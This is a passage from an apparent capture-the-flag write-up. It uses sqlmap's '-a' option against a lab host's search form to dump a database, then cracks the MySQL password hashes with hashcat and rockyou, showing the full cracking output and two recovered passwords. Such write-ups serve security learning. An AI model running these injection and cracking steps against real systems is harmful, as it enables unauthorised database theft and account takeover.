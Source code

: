 ```sh

[*] ending @ 15:27:32 /2020-04-13/
```
(Do not mind te time stamps, I had to cut and past two runs for the write up)

Great, so we can exploit this with `sqlmap`. Now the fun begins.

# User

What we can do, it be a bit brutal and use the `-a` flag to get all the power from `sqlmap`. This will download the database, and try to crack any password hash found.
I won't post the ouput as it is pretty long.

```sh
sqlmap -u http://10.10.10.167/search_products.php --data productName=1 --proxy http://127.0.0.1:8080 -a
```

What this command also does is download and organises the database for you in csv files. In the `user.csv` file, we find hashes. For me, `sqlmap` with its standard wordlist got the hash for user `manager`, but could crack for `hector`. I tried different list but it did not work in my VM. So I used my local windows machine to run the hashes in Hashcat against rockyou (john bugged on me also). So if you struggle try that. Just remember these are mysql hashes, so for hashcat you'll need `-m 300`. Once you've cracked, you'll get two passwords

```console
guanicoe@pc C:\Users\guanicoe\Documents\Hashcat\hashcat-5.0.0>hashcat -m 300 -a 0 -O -w 4 hash wordlists\SecLists\Passwords\rockyou.txt -r rules\best64.rule
hashcat (v5.0.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1660, 1536/6144 MB allocatable, 22MCU

Hashes: 3 digests; 3 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Applicable optimizers:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Precompute-Merkle-Demgard
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Watchdog: Temperature abort trigger set to 90c

Dictionary cache hit:
* Filename..: wordlists\SecLists\Passwords\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921490
* Keyspace..: 1104517568

0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
cfe3eee434b38cbf709ad67a4dcdea476cba7fda:l3tm3!n
Approaching final keyspace - workload adjusted.


Session..........: hashcat
```